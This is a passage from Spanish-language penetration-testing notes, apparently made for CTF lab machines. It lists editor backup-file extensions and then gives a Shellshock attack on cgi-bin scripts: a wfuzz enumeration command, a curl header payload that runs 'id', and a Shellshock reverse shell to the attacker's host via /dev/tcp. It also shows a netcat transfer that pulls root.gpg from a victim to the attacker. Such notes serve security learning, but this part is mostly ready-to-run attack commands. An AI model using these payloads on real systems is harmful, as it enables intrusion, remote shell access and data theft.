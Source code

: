 nano -> .swp, .save, archivo~
vim / neovim -> .swp, .swo
gedit -> archivo~
emacs  -> #archivo#, archivo~
mousepad (XFCE) -> archivo~

-------------------------------------------------------------------------------

## 78.- Si tenemos acceso a la carpeta cgi-bin

referencia máquina shock - vulnyx

cgi-bni es una carpeta utilizada para alojar scripts que interactuarán con el navegador web, en esta carpeta se alojan archivos como .sh, .cgi

hacemos una búsqueda

wfuzz -c -t 200 --hc=404 --hw=1 -w /usr/share/seclists/Discovery/Web-Content/common.txt -z list,sh-cgi "http://192.168.1.14/cgi-bin/FUZZ.FUZ2Z"

si encontramos un archivo como shell - sh con estado 500

me permite ejecutar comandos:

curl -H "user-agent: () { :; }; echo;echo; /bin/bash -c 'id'" http://IP-VICTIMA/cgi-bin/shell.sh


resultado:

uid=33(www-data) gid=33(www-data) groups=33(www-data)

ejecutamos para acceder a la máquina

enviamos una bash

curl -H "user-agent: () { :; }; echo;echo; /bin/bash -c 'bash -c 'bash -i >& /dev/tcp/IP-KALI/POT-ATACK 0>&1''" http://IP-VICTIMA/cgi-bin/shell.sh

nos ponemos en escucha con netcat y listo

-------------------------------------------------------------------------------

## 79.- netcat también sirve para transferir archivos

en kali:

se ejecuta primero

nc -lvnp 1234 > root.gpg

se guarda en la carpeta dónde ejecutamos el comando de arriba.



en víctima:

se ejecuta después:

nc IP-KALI 1234 < root.gpg

-------------------------------------------------------------------------------
